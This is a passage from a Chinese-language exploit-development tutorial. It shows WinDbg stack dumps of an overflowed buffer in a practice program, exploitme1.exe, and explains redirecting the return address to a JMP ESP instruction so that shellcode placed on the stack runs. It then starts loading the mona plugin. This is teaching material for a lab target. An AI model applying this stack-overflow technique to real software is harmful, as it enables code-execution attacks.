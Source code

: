 
我们来观察被ESP指向的栈部分：

    
    
    0:000> d @esp
    0041f7d0  63 63 63 63 63 63 63 63-63 63 63 63 63 63 63 63  cccccccccccccccc
    0041f7e0  63 63 63 63 63 63 63 63-63 63 63 00 00 00 00 00  ccccccccccc.....
    0041f7f0  dc f7 41 00 28 00 00 00-44 f8 41 00 09 17 35 01  ..A.(...D.A...5.
    0041f800  b9 17 e0 fa 00 00 00 00-14 f8 41 00 8a 33 0c 76  ..........A..3.v
    0041f810  00 e0 fd 7e 54 f8 41 00-72 9f 9f 77 00 e0 fd 7e  ...~T.A.r..w...~
    0041f820  2c 2d 41 75 00 00 00 00-00 00 00 00 00 e0 fd 7e  ,-Au...........~
    0041f830  00 00 00 00 00 00 00 00-00 00 00 00 20 f8 41 00  ............ .A.
    0041f840  00 00 00 00 ff ff ff ff-f5 71 a3 77 28 10 9e 02  .........q.w(...
    0:000> d @esp-0x20
    0041f7b0  61 61 61 61 61 61 61 61-61 61 61 61 61 61 61 61  aaaaaaaaaaaaaaaa
    0041f7c0  61 61 61 61 61 61 61 61-61 61 61 61 62 62 62 62  aaaaaaaaaaaabbbb
    0041f7d0  63 63 63 63 63 63 63 63-63 63 63 63 63 63 63 63  cccccccccccccccc
    0041f7e0  63 63 63 63 63 63 63 63-63 63 63 00 00 00 00 00  ccccccccccc.....
    0041f7f0  dc f7 41 00 28 00 00 00-44 f8 41 00 09 17 35 01  ..A.(...D.A...5.
    0041f800  b9 17 e0 fa 00 00 00 00-14 f8 41 00 8a 33 0c 76  ..........A..3.v
    0041f810  00 e0 fd 7e 54 f8 41 00-72 9f 9f 77 00 e0 fd 7e  ...~T.A.r..w...~
    0041f820  2c 2d 41 75 00 00 00 00-00 00 00 00 00 e0 fd 7e  ,-Au...........~
    

完美！ESP指向”c”所在的地址。记住ESP是0x41f7d0.现在通过按下CTRL+SHIFT+F5(restart)和F5(go)再次运行exploitme1.exe。

再次观察栈：

    
    
    0:000> d @esp
    0042fce0  63 63 63 63 63 63 63 63-63 63 63 63 63 63 63 63  cccccccccccccccc
    0042fcf0  63 63 63 63 63 63 63 63-63 63 63 00 00 00 00 00  ccccccccccc.....
    0042fd00  ec fc 42 00 29 00 00 00-54 fd 42 00 09 17 12 00  ..B.)...T.B.....
    0042fd10  94 7f 07 21 00 00 00 00-24 fd 42 00 8a 33 0c 76  ...!....$.B..3.v
    0042fd20  00 e0 fd 7e 64 fd 42 00-72 9f 9f 77 00 e0 fd 7e  ...~d.B.r..w...~
    0042fd30  c4 79 5c 75 00 00 00 00-00 00 00 00 00 e0 fd 7e  .y\u...........~
    0042fd40  00 00 00 00 00 00 00 00-00 00 00 00 30 fd 42 00  ............0.B.
    0042fd50  00 00 00 00 ff ff ff ff-f5 71 a3 77 f0 41 80 02  .........q.w.A..
    

正如你可以了解到的，ESP仍然指向“c”所在的地址，但是地址不同。我们把shellcode放入”c”的位置。但是不能用0x42fce0去覆盖reteip。因为准确的地址一直在变。但是ESP总是指向shellcode，因此为何我们不能用内存中含有一条JMP ESP指令的地址去覆盖ret eip呢？

我们使用mona(refresher)来寻找该指令：

    
    
    0:000> .load pykd.pyd
    0:000> !py mona
    Hold on...
    [+] Command used:
    !py mona.py
         'mona' - Exploit Development Swiss Army Knife - WinDbg (32bit)
         Plugin version : 2.0 r554
         PyKD version 0.2.0.29
         Written by Corelan - https://www.corelan.be
         Project page : https://github.com/corelan/mona
        |------------------------------------------------------------------|
        |                                                                  |
        |    _____ ___  ____  ____  ____ _                                 |
        |    / __ `__ \/ __ \/ __ \/ __ `/  https://www.corelan.be         |
        |   / / / / / / /_/ / / / / /_/ /  https://www.corelan-training.com|
        |  /_/ /_/ /_/\____/_/ /_/\__,_/  #corelan (Freenode IRC)          |
        |                                                                  |
        |------------------------------------------------------------------|    
    